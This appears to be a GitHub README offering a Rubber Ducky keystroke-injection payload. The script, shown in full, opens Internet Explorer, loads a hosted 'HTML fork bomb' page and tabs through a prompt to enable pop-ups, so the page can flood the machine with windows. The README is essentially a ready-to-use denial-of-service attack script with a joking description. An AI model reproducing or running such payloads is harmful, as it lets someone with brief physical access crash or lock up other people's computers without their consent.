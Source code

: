 # Rubber-Ducky_HTML_Fork-Bomb
A quickly Rubber Ducky HTML Fork Bomb Attack. WATTA!!!!!!


![Alt text](https://raw.githubusercontent.com/JonnyBanana/HTML-Fork-Bomb.github.io/master/img/61l9sMFJ7pL._SX425_.jpg)

<h3> V1 </h3>

REM HTML Fork Bomb by Jonny Banana </BR>
DELAY 2000 </BR>
CONTROL ESCAPE </BR>
DELAY 200 </BR>
STRING C:\Program Files\Internet Explorer\iexplore.exe https://jonnybanana.github.io/HTML-Fork-Bomb.github.io/ </BR>
DELAY 200 </BR>
ENTER </BR>
REM set a long delay  to give time to this disgusting browser </BR>
DELAY 1000 </BR>
REM it's time to enable Pop-Up </BR>
TAB </BR>
DELAY 200 </BR>
ENTER </BR>
